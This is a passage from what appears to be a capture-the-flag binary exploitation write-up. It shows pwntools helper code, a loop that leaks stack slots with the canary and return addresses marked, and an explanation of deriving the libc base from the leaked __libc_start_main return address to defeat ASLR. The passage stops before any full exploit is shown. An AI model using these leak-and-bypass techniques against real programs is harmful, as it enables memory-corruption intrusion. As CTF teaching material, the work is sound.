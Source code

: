 ```python
    p.recvuntil('> ')
    p.sendline(str(n))
    return

def stare(payload):
    p.recvuntil('> ')
    p.sendline('3')
    p.recvuntil('> ')
    p.send(payload)
```

then we need to leak the stack in order to have ana idea of how the stack is arranged:

```bash
for i in range(1,26):
    log.info(f'leak at {i} '+leak_at(i))
```

```bash
[*] leak at 1 (nil)
[*] leak at 2 (nil)
[*] leak at 3 0x7f01ebfa3c0a
[*] leak at 4 0x20
[*] leak at 5 0x7
[*] leak at 6 0xa70243625
[*] leak at 7 (nil)
[*] leak at 8 (nil)
[*] leak at 9 (nil)
[*] leak at 10 0x7ffd2c675200
[*] leak at 11 0xa0f4472e6be62a00 ##### CANARY
[*] leak at 12 0x7ffd2c675200 ######### SAVED EBP
[*] leak at 13 0x562d7d400eca ######### RET TO HERVEST
[*] leak at 14 0x100000020
[*] leak at 15 0xa0f4472e6be62a00 ##### CANARY
[*] leak at 16 0x7ffd2c675220 ######### SAVED EBP
[*] leak at 17 0x562d7d400fd8 ######### RET TO MAIN
[*] leak at 18 0x7ffd2c675310
[*] leak at 19 0xa0f4472e6be62a00 ##### CANARY
[*] leak at 20 0x562d7d401000 ######### SAVED EBP
[*] leak at 21 0x7f01ebf04d0a ######### RET TO __LIBC_START_MAIN
[*] leak at 22 0x7ffd2c675318
[*] leak at 23 0x100000000
[*] leak at 24 0x562d7d400f90
[*] leak at 25 0x7f01ebf047cf
```

so at the offset 11 we can leak the value of the canary, and at the offset 21 we can leak the return address of the ``` main ``` to the function ``` _libc_start_main ```. Now with the return address of the main leaked we can calculate the offset of the libc inside the process space because:

The return address is just ``` LIBC_BASE + RETURN_IstAddr_INSIDE_LIBC_START_MAIN ```, where the libc_base is randomized from ASLR that is enabled with PIE and the RETURN_IstAddr_INSIDE_LIBC_START_MAIN is the istruction address inside the libc where the main return without counting the random base.
